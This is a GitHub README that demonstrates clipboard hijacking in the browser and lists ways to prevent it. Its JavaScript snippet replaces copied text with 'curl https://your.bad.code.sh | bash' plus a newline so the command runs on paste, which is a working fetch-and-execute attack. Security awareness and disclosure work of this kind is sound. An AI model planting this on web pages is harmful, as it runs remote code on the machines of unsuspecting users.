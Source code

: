 # copy-paste-hack-js
During their job, developers often copy and paste code from the Internet from sources like Stackowerflow and other websites.  
I have found an **exploit**, with just some lines of JavaScript code, that can alter the copy-paste feature of any browser and make you paste (and execute) a different kind of code.

A running **demo** based on the content of this repository can be found here:  
[**TRY IT NOW**](https://marco97pa.github.io/copy-paste-hack-js/)

## How it works behind the scenes
Using plain JavaScript we detect every time there is a "copy" event on the text the user needs to copy.
When it happens, we set the clipboard content of the user with a different code, as we wish.
We also add a "/n" to simulate the Enter key and execute the code right away.

```javascript
document.getElementById('copyme').addEventListener(
    'copy', function(e){
        e.clipboardData.setData('text/plain',
        'curl https://your.bad.code.sh | bash\n');
        e.preventDefault();
    }
)
```
## How to prevent it from happening
- Always copy code from trusted sources and websites
- Always check the code and if you can't understand it, don't run it
- Install [this **Chrome Extension**](https://chrome.google.com/webstore/detail/copy-paste-hack-blocker/fkfnmcncicigjajpfdgpkjohbondnkld) to protect you from this hack, the extension will display an alert if the contents of your clipboard are different from what you had sleceted to copy.
- Some modern terminals like Windows Terminal display a warning message whenever you are trying to paste a multiline code (like the one in this exploit) and it will show up the code on the screen before getting executed. Just make sure to not ignore those helpful warnings. 
